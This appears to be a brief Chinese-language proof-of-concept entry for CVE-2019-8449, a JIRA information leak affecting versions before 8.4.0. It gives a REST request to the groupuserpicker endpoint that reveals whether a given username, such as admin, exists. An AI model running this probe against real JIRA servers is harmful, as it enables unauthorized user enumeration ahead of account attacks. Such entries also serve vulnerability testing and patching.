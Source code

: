 # CVE-2019-8449 JIRA 信息泄漏

影响版本：  
<8.4.0

poc:
```
/rest/api/latest/groupuserpicker?query=admin
#返回的json中没有数据的话admin不存在，有用户相关数据则admin用户存在
```